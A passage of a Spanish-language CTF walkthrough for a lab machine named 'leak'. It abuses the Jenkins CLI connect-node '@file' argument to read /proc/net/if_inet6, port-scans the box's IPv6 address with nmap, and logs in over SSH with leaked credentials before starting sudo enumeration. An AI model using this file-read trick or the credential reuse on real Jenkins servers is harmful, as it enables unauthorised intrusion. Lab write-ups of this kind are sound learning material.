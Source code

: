Se pueden observar unas credenciales, que probare en la pagina de login de jenkins con el ususario *George*
![invalid-password]({{'/assets/img/Leak/invalid-password.png' | relative_url}})

Al parecer no hay suerte, hay que seguir buscando y, hay un archivo con contenido interesante.
Que se trata del archivo **if_inet6** con una ipv6 configurada en la interfaz *enp0s3*
```bash
❯ java -jar jenkins-cli.jar -s http://192.168.2.8:8080/ -http connect-node "@/proc/net/if_inet6"
00000000000000000000000000000001 01 80 10 80       lo: No such agent "00000000000000000000000000000001 01 80 10 80       lo" exists.
fe800000000000000a0027fffe6fa818 02 40 20 80   enp0s3: No such agent "fe800000000000000a0027fffe6fa818 02 40 20 80   enp0s3" exists.
```

Le paso un escaner de puertos con *Nmap*
```bash
❯ nmap -p- --open -sS -T5 -vvv -n -Pn -6 fe80:0000:0000:0000:0a00:27ff:fe6f:a818
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-07 00:50 CEST
Initiating ND Ping Scan at 00:50
Scanning fe80::a00:27ff:fe6f:a818 [1 port]
Completed ND Ping Scan at 00:50, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 00:50
Scanning fe80::a00:27ff:fe6f:a818 [65535 ports]
Discovered open port 8080/tcp on fe80::a00:27ff:fe6f:a818
Discovered open port 22/tcp on fe80::a00:27ff:fe6f:a818
Discovered open port 80/tcp on fe80::a00:27ff:fe6f:a818
Completed SYN Stealth Scan at 00:50, 0.75s elapsed (65535 total ports)
Nmap scan report for fe80::a00:27ff:fe6f:a818
Host is up, received nd-response (0.000043s latency).
Scanned at 2024-04-07 00:50:00 CEST for 1s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 64
80/tcp   open  http       syn-ack ttl 64
8080/tcp open  http-proxy syn-ack ttl 64
MAC Address: 08:00:27:6F:A8:18 (Oracle VirtualBox virtual NIC)
```

Bien, bien, al parecer tiene el puerto 22 *ssh* expuesto y provare con las mismas credenciales de antes.

```bash
❯ ssh george@fe80:0000:0000:0000:0a00:27ff:fe6f:a818%enp3s0
george@fe80::a00:27ff:fe6f:a818%enp3s0's password: 
george@leak:~$ export TERM=xterm
george@leak:~$ pwd
/home/george
george@leak:~$ hostname
leak
george@leak:~$ hostname -I
192.168.2.8 
george@leak:~$ 
```
Estamos dentro, como el usuario *george*
```bash
george@leak:~$ cat user.txt 
f65**************************2c6
 ```
 Y el siguiente comando nos revela que podemos usar el archivo **wkhtmltopdf** con privilegios de *sudo*
```bash
george@leak:~$ sudo -l
Matching Defaults entries for george on leak:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

```